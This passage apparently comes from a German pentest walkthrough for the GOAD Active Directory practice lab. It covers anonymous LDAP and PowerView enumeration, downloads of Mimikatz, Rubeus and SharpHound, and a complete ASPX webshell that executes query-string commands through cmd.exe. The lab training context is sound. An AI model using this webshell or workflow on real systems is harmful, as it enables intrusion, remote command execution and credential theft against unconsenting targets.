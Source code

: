 #### 4. LDAP Enumeration
```bash
# Anonymous LDAP Bind
ldapsearch -x -h 192.168.10.10 -b "DC=sevenkingdoms,DC=local"
ldapsearch -x -h 192.168.10.11 -b "DC=north,DC=sevenkingdoms,DC=local"
ldapsearch -x -h 192.168.10.13 -b "DC=essos,DC=local"

# PowerView.py für detaillierte AD-Enumeration
powerview -t 192.168.10.10 -u guest
Get-DomainUser
Get-DomainGroup  
Get-DomainComputer
Get-DomainGPO
```

---

## Phase 2: Weaponization - Tool-Vorbereitung

### Windows Tool Setup (via Wine)
```bash
# Wine Installation
sudo apt install wine winetricks
winecfg  # Wine konfigurieren

# Windows Pentesting Tools Directory
mkdir ~/goad-tools && cd ~/goad-tools

# Mimikatz Download (Vorsicht - nur für autorisierte Tests)
wget https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip

# Rubeus (Kerberos Attacks)
wget https://github.com/GhostPack/Rubeus/releases/latest/download/Rubeus.exe

# SharpHound (BloodHound Data Collection)
wget https://github.com/BloodHoundAD/SharpHound/releases/latest/download/SharpHound.exe
```

### Custom Payloads & Scripts
```bash
# Webshell für ASPX Upload (castelblack IIS)
cat > webshell.aspx << 'EOF'
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
    void Page_Load(object sender, EventArgs e)
    {
        string cmd = Request.QueryString["cmd"];
        if (cmd != null)
        {
            Process p = new Process();
            p.StartInfo.FileName = "cmd.exe";
            p.StartInfo.Arguments = "/c " + cmd;
            p.StartInfo.UseShellExecute = false;
            p.StartInfo.RedirectStandardOutput = true;
            p.Start();
            Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
        }
    }
</script>
EOF
```

---
